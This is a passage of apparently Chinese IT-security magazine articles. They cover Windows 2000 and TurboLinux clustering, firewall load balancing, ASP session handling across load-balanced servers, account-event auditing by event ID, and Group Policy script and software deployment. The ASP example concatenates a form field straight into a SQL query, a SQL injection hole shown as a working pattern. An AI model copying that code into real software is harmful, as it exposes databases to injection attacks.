配置集群各节点：因为 TurboLinux Cluster Server 本身能被工具自动同步，所以只需配置 Windows 2000 Server：开始→设置→控制面板→添加新硬件→下一步→添加/排除设备故障→添加新设备→否，从列表选择硬件→其他设备→Microsoft: Microsoft Loopback Adapter→完成。桌面上右键单击“网上邻居”→属性→TCP/IP→设置 IP 地址、缺省网关、子网掩码（注：先设成 255.255.255.0）。开始→运行→regedit→找到注册表中跟 Microsoft Loopback Adapter 相关的项，将子网掩码改成：255.255.255.255。

配置系统以便运行合适的服务，并配置适合控制管理器管理的配置，以便在控制管理器中使用。

在管理选单中执行内容同步：选 tlcs_content_sync，输入密码，将复制控制管理计算机中的服务内容。在管理选单中执行设置同步：选 tlcs_config_sync，输入密码，将复制控制管理计算机中的设置。现在已经可以进入运行状态，可将客户端连接在服务器的交换机上，客户端可以请求 Web 和 FTP 服务，需要查看运行情况可以用控制台从 https://com1.blcserver.com:910 管理。

作为防火墙的计算机设备同样也需要负载平衡。通常，防火墙处于外部网和内部网之间，决定了哪些内部网络可以被哪些外部网络访问，以及哪些外部服务可以被内部人员访问。这样就造成了防火墙必定肩负着沉重的负担，而负载平衡恰恰可以缓解外部网络多主干网络带宽的压力，即在防火墙上面增加冗余功能。使用了负载平衡算法的冗余防火墙系统，能监测每个防火墙上的用户数目和流量，平等地动态分配单元进出的流量，保证所有安装的防火墙的性能处在最优化状态，这样整个系统处理数据流量的能力比单个防火墙就有了很大的提高。同时，不论处于备用状态还是负载均衡状态下，每个防火墙还监视其他设备的工作状态，当一个防火墙单元失效时，系统会将所有请求重新分配到其他单元上，并达到新的负载平衡（图 2，多个防火墙单元）。



配置上面的防火墙体系，首先需要防火墙自身的支持。这种防火墙可以采用 SecureCom 8001 防火墙。其次需要对路由器进行设置，对进出外网的数据包进行转发才行。负载平衡应用到网络 IDS 的原理也和防火墙差不多，大家可以试着去揣摩一下。

在程序编写上我们也可以用到负载平衡，只是现在的负载平衡很明显是用软件来替代硬件的算法，在速度上可能不是那么快，但效果还是很好的，可以缓解外部对内部服务器的要求。大家都使用过的 QQ，其服务器就有很多台，而每次我们登录的服务器可能都不是一样的。尽管如此，也许我们登录的 IP 地址是一个群集 IP 地址（即这个 IP 地址会把我们重新定向到另一台我们所不知道的服务器上面，实现负载均衡）。很多大型的有实力的公司也会在全国各地建立自己的分站点，总不可能大家都去访问一台服务器吧，这样服务器很容易崩溃的。

接下来，我们来和大家讨论一下如何在 ASP 程序里实现负载平衡。当我们创建交互式 Web 页面时最大的挑战之一是维持用户的状态，一个站点也许想记住你是谁，在 n 页之前你点击了什么，在这最后一次做了些什么，现在马上要向你显示什么。实现这些功能的途径有许多，如查询字符串、提交表单或 Cookies，最强大的一种是 ASP 的 Session 对象。服务器可以在 Session 集合中跟踪一整群的变量，通过与用户的 Session Cookie 相匹配来保持每个用户有一个特定变量。只要用户在服务器上保持活跃，Session 变量就维持它的状态。然后在大量用户的使用中跟踪用户会给服务器带来很大的负载。

然而对真正的负载平衡来说，每当处于服务器上的用户点击一个连接时，它就转到另一个服务器上面去，从而改变服务器的状态，而每当浏览一个新页面时都潜在地丢失他们的 Session 信息。如果你发现自己是在这样的环境下编写代码，或者你怀疑你的站点最终是负载平衡的，可能只有 4 种方法来解决这个问题：完全不使用 Session，使用临时 Cookies，购买第三方组件来处理 Session 管理，以及仅对 Web 范围内的第一次点击进行负载平衡。

同时，将分配给用户的 SessionID 存储为用户名。当用户离开这一页时可以考虑清除这个数据，有效地重新生成 ASP Session 对象。这可以手工完成，或者用一个限时程序将数周以上的记录删除。

### 1. 根本不使用 Sessions

显然，绕过 Sessions 管理这个问题的一个途径就是根本不使用 Sessions 变量，但是你仍然受困于状态保持的问题。你可以使用最简单的方法跟踪用户，而不用寄存于客户端。一种不安全的方法是使用浏览器查询字符串，或用隐藏值进行表单登入，以使用户保持活跃状态。这将允许你给他们一个用户 ID，并将变量存储在一个所有的 Web 服务器都能到达的地方。比如说，我们保持了变量 ShipToZipCode、TypeOfCustomer 和 CustomerEmail，可以这样写：

```html
<form action="/nextpage.asp" method="post">
  Item Number: <input type=text name="ItemNumber"><br>
  Quantity: <input type=text name="Quantity"><br>
  Unit Cost: <input type=text name="UnitCost"><br>
  <input type=hidden value="ABXXXKJR8JSDF112KJIL2H75CX45X2" name="sessionid">
  <input type=submit value="post form">
</form>
```

然后，在 nextpage.asp 上，可以做以下工作：

```asp
Set conn=Server.CreateObject("ADODB.Connection")
Set SessionRs = conn.execute("Select ShipToZipCode, TypeOfCustomer, CustomerEmail from TblSession where SessionID='" & request.form("sessionid") & "'")
ShipToZipCode = SessionRs("ShipToZipCode")
TypeOfCustomer = SessionRs("TypeOfCustomer")
CustomerEmail = SessionRs("CustomerEmail")
```

这样通过将所有的 Session 信息存储在数据库中，可以使这 3 个变量在每一页上都保持活跃，确保用户 ID 的值很难猜到，这很重要。当访问第一页时，

### 2. 使用临时 Cookies

对于特别的非敏感数据，直接向客户端中写入信息是有意义的。比如说，如果我们的站点只使用了一个变量来跟踪用户的 ZIP 码来得到用户在当地的交通记录，那么以 HTTP Cookie 的形式将用户的 ZIP 码写入他们的机器应该不会产生什么危害。因为你可以将 Cookie 写成浏览器关闭时失效，就可以使它们模仿一个 Session 变量的功能，也可以使他们是持久的，好在用户下一次访问时记住他。用 Request 对象 Cookie 的值可以为服务器所用。请求 Cookie 的值，然后将值带进来。所以在我们上面的例子中，可以这样做：

```asp
ShipToZipCode = Request.Cookies("SessionCookie")("ShipToZipCode")
TypeOfCustomer = Request.Cookies("SessionCookie")("TypeOfCustomer")
CustomerEmail = Request.Cookies("SessionCookie")("CustomerEmail")
```

你不得不把这些放置在每个页面的顶部，但是如果用户把 3 个 Cookies 都设置了，那么每一页都可以存取和使用这些用户特定的变量。你还可以在一个 Cookie 中设置 3 个变量，请看 Ken Baumbach 的文章 Cookie Basics with ASP，里面有设置变量的更多信息。如果你认为用户可能在浏览器上使 Cookie 无效，这种方法就不适用。但是越来越多的站点要求使用 Cookies，Web 用户也越来越熟练了。有可能相对很少的用户会使 Cookies 无效，但是这要在执行这一方法之前进行考虑。虽然上面的方法肯定能奏效，但是它们削弱了 ASP 的功能，因为它限制了其中一个关键组件 Session 对象的使用。

### 3. 购买一个第三方组件

第三方组件一般可以比 IIS 更好地处理 Session。在这里我们向大家介绍一个组件：由 SoftArtisans 提供的 SA-Session Pro。它使用 2000 文件系统存储用户的信息，整个网络范围内的服务器都可以使用。第三方组件创建“Session 引擎”把网络服务器和 Session 管理器分离。这样，每次用户都可以被重定向到相同的 Session 引擎，同时也对服务器本身的点击进行负载平衡。另一个可选择的第三方组件是 Microsoft 的成员服务器。它是 Microsoft 的站点服务器，它允许一个站点处理状态维护以外的问题。

由于 ASP 已经越来越成为企业级网络应用程序的选择，而负载平衡也成为这些应用程序成功的最大威胁，在市场上会出现越来越多的第三方组件。ASP 本身就是服务器对象或 ActiveX 组件，就是可以处理这些插件的。

不知道大家现在对 SQL 2000 了解吗？现在 SQL 2000 可以和 Win2000 合作处理用户的 Cookies，这样一来，ASP 的 Cookies 变量和 Session 可以都存储在 SQL 2000 数据库中，我们就再也不需要购买其他不是很可靠的第三方组件了。

## 充分利用 Win2000 Adv server

Windows 2000 Advanced Server 操作系统在包含 Windows 2000 服务器标准版全部特性和功能的基础上，为需要高度可伸缩性、可靠性及可用性的组织机构提供了额外特性。Windows 2000 Advanced Server 是一种通用高可用解决方案，适用于当今的 PC 客户机/服务器局域网。它通过共享的 SCSI 磁盘阵列将两套 Windows 2000 系统耦合在一起，创建成一种单一系统环境，或称为集群。终端客户可以存取所有的集群资源。例如，磁盘共享、文件共享以及数据库应用程序，而且不必了解集群内部各服务器名字。如果一台服务器失效，集群的第二台服务器将立即接替其工作负荷，重新连接客户机，迁移共享存储器和文件共享等。

Windows 2000 Advanced Server 集群适用工业标准部件，以非常低的成本提供系统级高可用性。对客户机来说，集群的寻址跟单一服务器寻址没有差别。集群通过冗余 CPU、存储器以及数据路径提供高水平的可用性。Windows 2000 的网络负载平衡群集最多可将 32 台运行 Windows 2000 Advanced Server 软件的服务器合并到单个群集中，以此对基于 TCP/IP 的服务和应用程序提供可伸缩性和高可靠性。客户端可使用一个 IP 地址访问群集，并用其他 IP 地址访问多宿主服务器。网络负载平衡群集通过在群集中的服务器之间分配客户机连接以提供高性能。如果服务器故障或因升级、测试和维护而脱机，群集将自动重新配置，而且客户机连接也将重新分配（图 3）。



如果要在非群集环境下访问某个网络应用程序或资源，网络客户端必须与物理服务器（是指网络中由唯一的网络名称和 IP 地址所标识的特定计算机）连接。如果该服务器发生故障，则无法访问应用程序或资源。Windows 2000 Advanced Server 允许通过服务器群集创建虚拟服务器。与物理服务器不同，虚拟服务器不与特定的计算机相关联，但可以像组那样进行故障转移。如果虚拟服务器所在的节点产生故障，则客户机仍可以使用相同的服务器名访问它的资源（图 4）。



对硬件 RAID 的支持，Microsoft Windows 硬件兼容性列表也包含了用于群集的许多不同硬件 RAID 配置（图 5）。



群集技术和负载平衡是不可分割的。我们用了很大的篇幅给大家介绍了群集技术，它是实现负载平衡的关键。而负载平衡技术的强大功能还必须大家通过亲身实践才能体会到。

## Windows 2000 账户的安全审计

文/小庄

> 刘流，Windows 2000 系统由于市场份额、普及率等方面的原因，在网络中的运用是非常广泛的，但很多朋友都盲目地说 2K 不够安全，其实这是个误区。任何系统的存在都有它固有的缺陷，不会有任何一种系统是绝对安全的！同样，Windows 2000 经过细致的配置后一样是个非常坚固的系统。不信？那我们今天一起来看看 Windows 2000 中的账户审计。看完本文后你还能说你完全了解 Windows 2000 吗？

在日常的安全维护中，系统的安全审计是十分必要和重要的工作，尤其以系统的账户事件最为重要。由于操作系统的账户是进入系统的钥匙，通过审计系统的账户事件可以帮助我们及时发现一些异常的现象或行为。据统计，有 70% 以上的入侵事件可以通过对账户行为的审计，发现入侵者的蛛丝马迹。

Windows 2000 系统拥有强大的系统审计工具，可以帮助系统管理员高效地开展安全审计的安全维护工作。鉴于账户事件审计的重要性，本文将主要对账户事件的审计进行阐述。

### 配置审计策略

审计事件可以分为两个大类：成功事件和失败事件。一个成功事件指一个用户已经成功获得访问某个资源的权利，而失败事件表明该用户试图访问某个资源，但失败了。

在 Windows 制定账户审计策略时主要是以系统资源的访问情况进行审计策略定制的，即确定记录下列资源访问的成功与失败的情况：

- 1. 审核登录事件；
- 2. 审核账户登录事件；
- 3. 审核账户管理。

进入审计策略的配置界面方法描述如下：开始→运行→secpol.msc，确定。进入本地策略→审计策略，进入图 1 所示的界面：


图 1

### 账户审计信息

#### 1．审核登录事件

登录事件指当用户登录或注销时将产生一个事件记录到安全日志上，用户的登录不仅指登录到本机，也包括用户登录通过远程服务的登录信息。登录事件随着登录会话的建立而产生。登录事件不仅有助于跟踪到登录服务器的各种试探性行为，也有助于调查到攻击来自何方。

表 1 是描述事件 ID 的具体内容，帮助管理员分析有关的登录事件的行为。

| 事件 ID | 事件描述 |
| :--- | :--- |
| 528 | 用户成功登录到计算机上 |
| 529 | 因用户名不存在或口令错误导致登录失败 |
| 530 | 用户在非允许登录时间内登录 |
| 531 | 使用失效账户登录 |
| 532 | 使用过期账户登录 |
| 533 | 该用户不允许登录到该计算机上 |
| 534 | 用户登录方式错误 |
| 535 | 用户口令过期 |
| 536 | Net Logon 未激活 |
| 537 | 因其他原因登录失败 |
| 538 | 用户注销 |
| 539 | 在账户锁定期间尝试登录 |
| 540 | 网络登录成功 |
| 682 | 用户重新连接到终端服务 |
| 683 | 用户未注销终端服务而断开连接 |

- **本地登录失败事件**：出现事件 ID 为 529、530、531、532、533、534 或 537 时，说明有本地登录失败事件发生。如果 ID 为 529 和 534，说明有人曾经尝试暴力破解口令。当然，在不同环境下，对于事件的判断将会不同。例如，在某天半夜出现一连串 529 事件（即：因用户名不存在或口令错误导致登录失败）之后，出现 528 事件（即：用户成功登录到计算机上），说明攻击者通过口令尝试已经成功登录系统！
- **账户事件**：事件 530、531、532 和 533 表明账户曾经被误用。
- **账户锁定事件**：事件 539 表明账户被锁定。说明口令攻击失败，可以审计前面出现的 529 事件，进一步了解事件的经过。
- **终端服务攻击事件**：事件 683 表明某个用户没有从终端服务器注销；事件 682 表明用户重新连接到终端服务器上。

#### 2. 审核账户登录事件

当用户认证信息包验证或生效时，就会产生账户登录事件。账户登录事件不仅可以在单台主机服务器上生产，而且可以在域服务器上产生。一般来讲，当域用户的认证信息在验证时，也会在其域服务器上产生相应的账户登录事件信息。如果用户的认证信息是本地 SAM 数据库内的用户凭证，那么用户登录信息将在服务器的安全事件日志上记录该用户的认证凭证信息。

- **域登录失败**：事件 675 和 677 是我们应该关注的事件，这些事件通常表明有人企图非法登录域。

#### 3. 审核账户管理

账户审核审计用户或用户组创建、变更、删除的情况。

| 事件 ID | 事件描述 |
| :--- | :--- |
| 624 | 用户账户被创建 |
| 625 | 用户账户类型改动 |
| 626 | 用户账户激活 |
| 627 | 试图变更口令 |
| 628 | 用户口令设置 |
| 629 | 用户账户停用 |
| 630 | 用户账户删除 |
| 631 | 创建全局组 |
| 632 | 添加全局组成员 |
| 633 | 删除全局组成员 |
| 634 | 删除全局组 |

- **创建用户账户**：事件 ID 是 624 和 626 表明一个用户被创建了，可以跟踪查看这个信息，发现潜在的非法入侵者创建用户的情况。
- **用户口令变更**：如果用户的口令被莫名其妙地变更了，说明该用户的口令被人成功破解并更换。因此，事件 ID 为 627 和 628 是应该关注的信息。出现这样的情况时，通常采用的解决方法是将用户口令重置或干脆删除这个账户。
- **用户账户状态变更**：入侵者通常在入侵之后，为了掩盖其踪迹会改变其渗透到系统时用的临时账户的状态。借助事件 629 和 630 的追踪，可以发现这类情况。
- **账户锁定**：账户的锁定信息一方面表明账户锁定策略起到其作用，阻止了入侵者对该账户口令的暴力破解行为；同时，也提醒管理员注意，有人在企图通过口令的破解侵入系统，需要对现有的账户口令强度情况做相应的检查。

### 4. 小结

系统的账户事件是重要的审计信息之一，它能够帮助系统管理员及时发现基于账户攻击的入侵行为。本文重点描述了 Windows 2000 系统的账户事件信息情况，并指出了不同事件类型所隐含的安全问题，希望能提高大家的安全意识。

## 组策略绑死 超级网管

文／单长虹

刘流：网络上有关组策略的讨论比较多，黑防最近专门出过一本系统介绍这方面内容的图书：《组策略应用技巧》。不过，本文并没有介绍组策略中被人们熟悉的那些技术，而主要是从一般人很少掌握的技术方面入手，结合自己的实践经验，侃侃而谈，引读者渐入无人之境。如果你是一个网络管理员，或者是个想要让自己管理的众多计算机统一调配的话，请看下文！

- 难度等级：高
- 前置知识：熟练使用活动目录工具，熟悉组策略

“组策略”就是一些策略的组合，只能实施在 S-D-OU（Site、Domain、Organization Unit）和计算机上。我们可以通过它布置软件安装、开关机启动脚本、远程安装设置、文件夹重定向、安全设置和管理模板。下面我将就几个非常重要的功能作详细介绍，如布置软件安装、开关机启动脚本、文件夹重定向等，希望能给网管兄弟带来些有实际用途的东西。

首先，我们建立一个域 ucdos.com，并且在其中建立了两个 OU，名称分别为 gfzx 和 liss，在组织单元 gfzx 中布置了两台分别为 rita 和 smiler 的计算机，另外，在 gfzx 组织单元也布置两个用户，名字也为 smiler 和 rita。下面我们就针对 gfzx 来实施组策略。

在工具“AD用户和计算机”中，找到域控制器下面的组织单元 gfzx，在上面点击鼠标右键，打开“属性”页，选择“组策略”页面，新建一个组策略 Policy On Gfzx，对其进行编辑。

可以看到，组策略分为“计算机配置”和“用户配置”两部分，在这里我将重点介绍软件安装、脚本（启动／关闭）、脚本（登录／注销）、文件夹重定向，至于其他几个内容，以前谈的都比较多了，这里不作介绍。

计算机配置：针对处在本组策略作用范围内的计算机（本例中就是指的 gfzx 中的计算机）。用户配置：针对处于本作用范围的用户，本例中也就是针对处于 gfzx 中的用户。

他们在登录 gfzx 中的计算机时，就会使用组策略指定的配置，本例中就是指 smiler 和 rita 用户在 gfzx 中的计算机上登录时使用。

### 登录脚本

下面我们先从比较简单的人手，来看一下登录脚本的设置。首先建立一个文件 `logon.vbs`，内容如下：

```vbscript
wscript.echo "hello", chr(10), chr(10), "Welcome you to logon!"
```

这里的 `chr(10)` 代表回车，`"hello"` 是标题部分，`"Welcome you to logon!"` 是内容部分。有了这个文件，我们就可以非常方便地设置登录脚本。点击“属性”之后，在弹出的对话框中选择“添加”，找到 `logon.vbs`，确定之后就可以了。至于计算机配置里面的“启动／关闭”脚本和用户配置里面的“注销脚本”，其设置方法与此相同，读者可以自己尝试一下。它们的不同在于其被系统调用的时机的差别，读者可以在实验中细细体会一下。

### 文件夹重定向

接下来看一下用户配置里面的“文件夹重定向”，它的作用主要是为了存储不同用户或者是同组用户的个人文件夹的需要，使文件服务器的功能更加独立与突出，也使得用户的个人数据存储更加方便。我们既可以对程序也可以对数据实现重定向，比如我们对“我的文档”实现重定向，一旦实现，用户的“我的文档”中的内容就会全部重定向到文件服务器上，您对“我的文档”中的任何内容改变都将反映到文件服务器。其实现方法如下：

打开“文件夹重定向”，在“My Documents”上点鼠标右键，打开“属性”页。这里，我们既可以为不同的用户指定相同的位置，也可以选择为不同的用户组指定位置。

这里我们选择为不同的用户指定相同的位置，然后指定目标文件夹的位置，这里一定要使用 UNC 路径，本例中我们可以输入 `\\smiler\Redirect`，这样确定以后就可以了。

### 软件安装

最后，我们来探讨软件的设置。通常情况下，微软的很多软件都会提供一个后缀名为 `.MSI` 的可执行文件，一般情况下，我们做分发时就是将这个文件分发出去，比如 Microsoft Office，就有一个程序包 `DATA1.MSI`。

下面我们来看一下如何分发它。在“计算机配置”的“软件安装”中，点击右键，新建“程序包”，在调出页面中，通过 UNC 路径找到要分发的程序的位置，在接下来的对话框中，选择“已指派”就可以了。这样，我们就将 Office 分发出去了。同样，在“用户配置”中的“软件安装”中的配置也按照这个顺序就可以实现了。这样分发之后，每当本策略作用范围内的计算机启动时，计算机都会自动检查是否安装了 Office，如果没有安装，计算机将通过指定的共享路径，找到分发的文件，自动对其安装。如果我们指定的在“用户配置”中的“软件安装”，它将对在本策略作用范围内的用户生效，一旦用户登录本策略作用范围内的计算机，都会自动出现 Office 图标。无论是使用哪种配置安装的软件，我们都可以通过几种方法使用。一是在“程序”中直接打开，二是直接通过扩展名关联打开。

网管在做系统的时候，不仅仅要将软件分发出去，还要将分发的软件进行分类。首先要建立所有要使用的类别。然后要在已分发的软件上点击右键，选择“属性”，调出对话框，选择 atc 类别。因为篇幅的限制，这里不一一详细介绍了。

刚才我们讨论的是微软的程序包，并且带有 .MSI 的安装文件。但是对于那些没有 .MSI 文件的可执行文件，我们是不是就没有办法将其分发出去了呢？办法还是有的，下面我就来介绍一下。

我们可以使用 .zap 文件来分发应用程序，格式如下（以分发 WinRAR 为例介绍一下）：

```ini
[application]
friendlyname=winrar
setupcommand=winrar.exe
displayversion=3.0
publisher=Nico Mak Computing, INC.
URL=www.winrar.com

[ext]
rar=
```

关于各个参数的说明：friendlyname 是指在“添加／删除”程序中显示的名字（必写项）；setupcommand 跟的是应用程序的安装文件名（必写项）；displayversion 指的是版本号（可选项）；publisher 是指开发商（可选项）；URL 指的是开发商的网址（可选项）；ext 指的是用来打开文件的扩展名，也就是说当点击这样的扩展名的文件的时候，将自动安装当前应用程序。最好将 .zap 文件与可执行文件放在同一个目录下，既方便查找，又方便安装。

我们找到了 .zap 所在的 UNC 路径，这时候不要选择添加 MSI 文件，而应该选择扩展名为 .zap 的文件。在接下来的步骤中选择“已发布”，程序会自动设置为自动安装。

当我们做了软件分发以后，如果需要升级，就可以选中要升级的软件包，点击右键，在弹出的对话框中选择要进行升级的文件。这里还需要特别注意的就是程序包的安全性，我们可以在安全属性页面中做出自己的安全选择，当然这个前提是你已经对 NTFS 的权限比较熟悉了。

谈到这里，自然有人会问，如果我在站点、域、组织单元和计算机上都实施了组策略，就有一个优先级的问题。实际上，它的实施顺序是按照“本地组策略——站点组策略——域上的组策略——组织单元上的组策略”来安排的。可以看出，组织单元上的组策略优先级最高。也就是说，在组织单元上实施的组策略会覆盖掉前面的策略。

软件的部署有 3 种方式：发行给用户、指派给用户、指派给计算机。下面我来依次做一个介绍。

